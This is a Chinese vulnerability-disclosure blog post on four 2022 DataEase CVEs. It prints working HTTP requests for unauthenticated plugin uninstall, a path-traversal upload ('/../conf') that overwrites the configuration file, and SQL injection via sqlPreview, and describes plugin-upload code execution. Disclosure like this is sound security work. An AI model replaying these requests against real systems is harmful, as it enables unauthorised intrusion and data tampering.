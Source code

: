 ```yaml
---
title: Dataease漏洞
tags: CVE
---
```


2022年，由于公司需要，对fit2cloud的新产品dataease做了一次审计和漏洞挖掘，发现了一些成果，也获得了飞致云的致谢。

![image-20240509104557017](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091046818.png)

现在公开漏洞的一些相关细节，其中关于插件的两个漏洞综合利用可以实现任意代码执行。

# CVE-2022-34113：普通用户上传插件至任意代码执行

在官网编译插件，并在主要连接presto的功能处加入恶意代码：

![image-20240509105601052](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091056175.png)

插件安装处未鉴权，普通用户可调用接口上传插件：

![image-20240509105619408](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091056530.png)

上传成功后普通用户新建presto数据源：

![image-20240509105633131](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091056226.png)

查看dnslog平台：

![image-20240509105646212](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091056264.png)

# CVE-2022-34112：普通用户卸载插件

普通用户无法对插件进行处理，但是通过调用接口可对插件进行卸载：

```
POST /api/plugin/uninstall/1 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Authorization: xxx
LINK-PWD-TOKEN: null
Connection: close
Content-Length: 0
```

低权限依然可以调用api/plugin/uninstall接口进行插件卸载：

![image-20240509105428489](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091054607.png)

发送：

![image-20240509105454084](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091054161.png)

管理员查看插件被卸载，漏洞利用成功：

![image-20240509105510298](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091055380.png)

# CVE-2022-34115：任意文件写入

数据源驱动管理处存在文件上传接口：

![image-20240509104915660](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091049257.png)

查看源代码：

![image-20240509104958334](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091049407.png)

这里直接拼接的文件与ID，因此可以构造包：

```
POST /driver/file/upload HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Authorization: xxx
Content-Type: multipart/form-data; boundary=---------------------------70362338610608895491036095575
Content-Length: 1167
Origin: http://10.211.55.18
Connection: close
Referer: http://10.211.55.18/
Cookie: 

-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="id"

/../conf
-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="name"

123
-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="createTime"

1654829420814
-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="type"

mysql
-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="driverClass"

null
-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="desc"


-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="typeDesc"

MySQL
-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="showModel"

show
-----------------------------70362338610608895491036095575
Content-Disposition: form-data; name="file"; filename="dataease.properties"
Content-Type: image/png

123
-----------------------------70362338610608895491036095575--
```

虽然返回包为错误，但实际上已经上传成功。
因此可以修改数据库配置文件或其他配置文件，可能会造成任意代码执行。

# CVE-2022-34114：SQL注入

普通权限用户可调用 /dataset/table/sqlPreview 接口。
实现过程中主要需要两个参数：DataSourceId和 sql，dataSourceId可通过查看数据源获取。

```
POST /dataset/table/sqlPreview  HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authorization: xxx
LINK-PWD-TOKEN: null
Content-Length: 95
Connection: close

{"dataSourceId":"76026997-94f9-4a35-96ca-151084638969","info":"{\"sql\":\"select version()\"}"}
```

![image-20240509105252161](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202405091052249.png)

